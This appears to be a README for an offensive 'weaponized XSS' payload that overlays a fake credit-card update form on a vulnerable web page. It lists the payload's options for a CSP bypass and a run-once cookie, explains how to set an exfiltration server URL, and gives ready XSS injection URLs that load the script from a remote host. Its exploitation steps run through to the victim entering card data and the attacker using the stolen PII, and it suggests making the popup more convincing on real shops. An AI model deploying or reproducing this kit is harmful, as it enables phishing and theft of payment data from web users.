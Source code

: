 # [unauthn] Credit Card Update Form (Phish)

<p align="justify">This payload adds HTML code as an overlay to the target web page (containing the XSS vulnerability). The code displays a Credit Card Update popup form. If blended in the application's context sufficiently, once they encounter such a prompt, most users have a (proven) tendency to blindly provide it requested information (which contributes to a higher success rate of such phishing attacks).</p>

Typical use-case scenarios:
* external network perspective (Internet)
  * B2C website
    * web shop
    * web support
    * public web
  * **NOTE**: if possible, leverage additional available functionality of the target web application to make the popup form appear (even) more convincing (e.g. using JavaScript, open the chat widget and display an appropriate phishing message to the victim user and display the form afterwards)

The payload (`ccphish.js`) supports the following options:

* no CSP bypass - issue AJAX request (i.e. client-side redirect)

  ```
  ...
  let bypassCSP = false;
  ...
  ```

* CSP bypass - issue hard redirect (uses `redir.php`; i.e. server-side redirect)

  ```
  ...
  let bypassCSP = true;
  ...
  ```

* run payload once - sets a cookie, once payload is executed; used to prevent further payload executions

  ```
  ...
  let runOnce = true;
  ...
  ```

## Live Example

* *(live example - OWASP juice shop - reflected XSS)*

    https://preview.owasp-juice.shop/#/search?q=%3Cimg%20src%20onerror%3D%22with(document)body.appendChild(createElement(%27script%27)).src%3D%27%2F%2Fcdn.jsdelivr.net%2Fgh%2Flighthouseitsecurity%2FweaponizedXSS%2FCredCardPhishing%2FccphishLiveExample.js%27%3B%22%3E

## Test Environment

### Web Browsers (20250806)

* [x] Mozilla Firefox 141.0.2 (64-bit)
* [x] Google Chrome 139.0.7258.67 (64-bit)
* [x] Microsoft Edge 138.0.3351.121 (64-bit)

### Vulnerable Page

http://testphp.vulnweb.com/listproducts.php?cat=XSS_PAYLOAD_HERE

## Exploitation Steps

1. [setup exploit] adapt to target environment

    * change logo (image + displayed dimensions)
    * modify CSS (scenario-dependent)

3. [setup exploit] change payload variable values (`ccphish.js`; `redir.php`)

    `attWsPhishPath` - exfiltration web server URL (i.e. scheme + FQDN + port + path; use trailing slash)

    `bypassCSP` - use/do not use CSP bypass (true/false)

    `runOnce` - execute payload only once (true/false)

    `url` - exfiltration web server URL

4. [setup exploit] setup web server (to serve the payload/redirector)

5. [social engineering attack] victim user clicks link

    ```
    http://testphp.vulnweb.com/listproducts.php?cat=<script src=http://192.168.5.5/ccphish.js></script>
    ```

    * **NOTES**:
      * `testphp.vulnweb.com` - target site
      * `192.168.5.5` - web server hosting the payload

6. [social engineering attack] victim user provides requested information

    *(attacker obtains PII data)*

7. [post exploit] attacker leverages obtained PII data

## Screenshots

* **NOTE**: the screenshot covers steps 2 to 5 from the "Exploitation Steps" chapter

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CredCardPhishing/screenshots/CredCard_phish_-_PII_exfil_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CredCardPhishing/screenshots/CredCard_phish_-_PII_exfil_-_1-1.png">
    </picture>
  </kbd>
</p>

* [web browser rendering] Mozilla FireFox

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CredCardPhishing/screenshots/CredCard_phish_-_web_browser_rendering_-_Mozilla_FireFox_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CredCardPhishing/screenshots/CredCard_phish_-_web_browser_rendering_-_Mozilla_FireFox_-_1-1.png">
    </picture>
  </kbd>
</p>

* [web browser rendering] Google Chrome

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CredCardPhishing/screenshots/CredCard_phish_-_web_browser_rendering_-_Google_Chrome_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CredCardPhishing/screenshots/CredCard_phish_-_web_browser_rendering_-_Google_Chrome_-_1-1.png">
    </picture>
  </kbd>
</p>

* [web browser rendering] Microsoft Edge

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CredCardPhishing/screenshots/CredCard_phish_-_web_browser_rendering_-_Microsoft_Edge_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CredCardPhishing/screenshots/CredCard_phish_-_web_browser_rendering_-_Microsoft_Edge_-_1-1.png">
    </picture>
  </kbd>
</p>

## Video

https://github.com/user-attachments/assets/8d47b495-6fef-4059-b3dc-aaa31655a748
